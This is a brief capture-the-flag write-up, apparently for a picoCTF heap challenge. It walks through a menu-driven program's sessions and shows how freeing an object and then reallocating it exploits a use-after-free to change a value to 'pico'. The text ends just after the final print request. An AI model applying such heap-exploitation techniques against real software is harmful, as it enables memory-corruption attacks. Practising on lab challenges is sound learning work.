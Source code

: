 When we enter 3 to the program, we can see it says x is bico, this means that we have to change x to "pico" to get the flag. 
```
Enter your choice: 3


x = bico


1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit
```
First thing I can get into is try to attack the buffer to see what happened.

I go for a medium number, 32. 
```
Enter your choice: 2
Size of object allocation: 32      
Data for flag: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 1
[*]   Address   ->   Value   
+-------------+-----------+
[*]   0x227c6ce  ->   bico
+-------------+-----------+
```
It does not change anything, it still "bico".
But what the Free x function is ? What is that for ? 

Go back to the hints, it tells us to use after FREE !

This time I free first of all, then try to input the same value.

```
Enter your choice: 5

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 2
Size of object allocation: 32
Data for flag: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 3
```